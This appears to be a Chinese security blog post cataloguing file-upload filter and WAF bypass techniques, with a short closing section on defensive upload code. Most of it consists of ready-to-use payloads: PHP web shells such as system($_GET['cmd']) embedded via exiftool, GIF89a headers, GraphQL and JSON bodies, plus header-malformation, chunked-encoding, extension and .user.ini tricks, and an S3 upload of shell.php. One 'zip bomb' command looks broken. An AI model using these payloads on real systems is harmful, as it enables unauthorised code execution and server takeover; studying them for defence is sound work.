

# 关注微信公众号：诸葛安全


# 0x01 协议层：HTTP协议魔法


## 1、Content-Disposition头变形

```php
# 换行符干扰
Content-Disposition: form-data; name="file";
filename="shell.php"  

# 多等号混淆
Content-Disposition: form-data; name===="file"; filename="1.php"  

# 字段顺序调换
Content-Type: image/png  
Content-Disposition: form-data; name="file"; filename="shell.php"  

# 垃圾数据填充
Content-Disposition: aaaa...（5000字符）...aaaa; name="file"; filename="shell.php"  

# 多重filename干扰
Content-Disposition: form-data; filename="safe.jpg"; filename="shell.php"  
```

绕过原理：WAF解析逻辑与服务器不一致，导致检测逃逸


## 2、Boundary边界

```php
# 非标准边界格式  
--MyBoundary_$$$  
Content-Disposition: form-data; name="file"; filename="shell.php"


# 嵌套Boundary
Content-Type: multipart/form-data; boundary=abc
--abc
Content-Type: multipart/form-data; boundary=def
--def
Content-Disposition: form-data; name="file"; filename="shell.php"
--def--
--abc--
```

攻击效果：部分WAF无法解析多层嵌套结构


## 3、分块传输编码（Chunked）绕过
```php
POST /upload.php HTTP/1.1
Transfer-Encoding: chunked

4
shell
6
.php
0

# 解码结果：shell.php
```

防御难点：需完整解析分块数据才能检测


# 0x02 文件本身的变形


## 1、扩展名魔术
```php
# PHP的变形家族
.phar | .pht | .phtml | .pgif | .phps | .php3 | .php7

# JSP的伪装者
.jspx | .jspf | .jsw | .xsp | .d.jsp

# 大小写花式秀
.PHp | .PhP5 | .pHAR

# 双扩展名陷阱
shell.php.jpg | shell.jpg.php | shell.php%20

# 特殊符号插入
shell.php%00.jpg | shell.php::DATA | shell.php...
```


## 2、文件内容伪装

```php
# 图片马注入的N种方式
1. EXIF注入：exiftool -Comment='<?php system($_GET["cmd"]);?>' 1.jpg
2. IDAT块注入：使用pngcrush插入PHP代码到IDAT块
3. SVG矢量图：<svg><script>alert(1)</script></svg>

# 绕过二次渲染
# GD库保留EXIF数据的PHP版本（<7.2）
# 制作特殊GIF89a头部保留代码
GIF89a<?php system($_GET['cmd']); ?>  

# 压缩包炸弹
# 制作递归压缩文件绕过杀软扫描
tar -czvf bomb.tar.gz -P "JUNK_DATA=$(dd if=/dev/urandom bs=1M count=100)"  
```


# 0x03 针对服务器特性


## 1、中间件解析漏洞

```php
# IIS 6.0
/shell.asp;.jpg          # 分号解析漏洞
/shell.asp/shell.jpg     # 目录解析漏洞

# Apache  
shell.php.               # 扩展名补全漏洞（配置AddHandler）
shell.php%0a             # 换行解析漏洞（CVE-2017-15715）

# Nginx
# 配置错误导致畸形路径解析
/uploads/shell.jpg/../.php  

# PHP CGI  
# 参数污染漏洞  
/upload.php?file=shell.jpg%20HTTP/1.0.php
```


## 2、环境配置利用

```php
# .user.ini攻击
# 上传.user.ini文件
auto_prepend_file = shell.jpg

# 临时文件竞争
# PHP的session.upload_progress特性
# 结合LFI漏洞包含临时session文件

# 云存储桶错误配置
# AWS S3桶上传可执行权限文件
aws s3 cp shell.php s3://bucket/ --acl public-read 
```


# 0x04 业务逻辑


## 1、前端框架

```php
# Vue/React文件名处理漏洞
// 前端代码将文件名转换为小写，但后端未统一处理
axios.post('/upload', formData)

// formData.append('file', file, file.name.toUpperCase())

# 文件预览功能漏洞
# 上传HTML文件后触发XSS
# 上传Markdown文件触发SSRF（如包含远程图片）
```


## 2、API接口

```php
# GraphQL文件上传绕过
mutation {
  uploadFile(file: "shell.php", content: "<?php system($_GET['cmd']); ?>")
}

# RESTful接口参数污染
POST /api/upload
Content-Type: application/json

{
  "filename": "shell.jpg",
  "content": "<?php system($_GET['cmd']); ?>",
  "fileType": "php"
}
```


# 0x05 开发测认知


## 1、防御体系




## 2、核心

```
# 永远不要信任客户端提交的任何数据
1、白名单！白名单！白名单！（重要的事情说三遍）
2、最小权限原则：上传目录禁用脚本执行
3、持续监控：建立文件上传行为的基线模型
```


## 3、防御代码终极版

```
class IronWallUploader {
    private $allow_ext = ['jpg', 'png'];
    private $allow_mime = ['image/jpeg', 'image/png'];
    private $max_size = 5242880; // 5MB

    public function upload($file) {
        // 步骤1：基础校验
        if ($file['error'] !== UPLOAD_ERR_OK) throw new Exception("上传错误");
        if ($file['size'] > $this->max_size) throw new Exception("文件过大");

        // 步骤2：扩展名白名单
        $filename = basename($file['name']);
        $ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
        if (!in_array($ext, $this->allow_ext)) throw new Exception("非法扩展名");

        // 步骤3：真实MIME检测
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $mime = finfo_file($finfo, $file['tmp_name']);
        if (!in_array($mime, $this->allow_mime)) throw new Exception("MIME类型异常");

        // 步骤4：文件头核验
      $header = bin2hex(file_get_contents($file['tmp_name'], false, null, 0, 4));
        $allow_headers = ['ffd8ffe0', '89504e47'];
        if (!in_array($header, $allow_headers)) throw new Exception("文件头非法");

        // 步骤5：二次渲染
        try {
            if ($mime === 'image/jpeg') {
                $img = imagecreatefromjpeg($file['tmp_name']);
                $save_path = $this->save_dir . '/' . md5(uniqid()) . '.jpg';
                imagejpeg($img, $save_path, 100);
            } elseif ($mime === 'image/png') {
                $img = imagecreatefrompng($file['tmp_name']);
                $save_path = $this->save_dir . '/' . md5(uniqid()) . '.png';
                imagepng($img, $save_path, 9);
            }
            imagedestroy($img);
        } catch (Exception $e) {
            throw new Exception("文件处理失败");
        }

        // 步骤6：病毒扫描
        $clamav = new ClamAV();
        if (!$clamav->scan($save_path)) {
            unlink($save_path);
            throw new Exception("检测到恶意文件");
        }

        return $save_path;
    }
}
```


# 0x07 （AI）新姿势


对抗样本生成：比如使用GAN生成绕过检测的图片马
语义分析绕过：构造看似正常的文件名如： report_q2_final.php 
动态Payload生成：根据目标WAF特征实时调整攻击载荷


## AI深度学习

```
# 基于深度学习的文件检测模型
model = keras.models.load_model('malware_detector.h5')

def ai_check(file_path):
  # 提取文件特征（字节分布、熵值、结构特征）
  features = extract_features(file_path)
  prediction = model.predict(features)

  # 低于阈值判定为安全
  return prediction < 0.5
```


# 0x07 给我们牛马人的建议

保持对HTTP协议的深刻理解，协议层绕过永不过时！


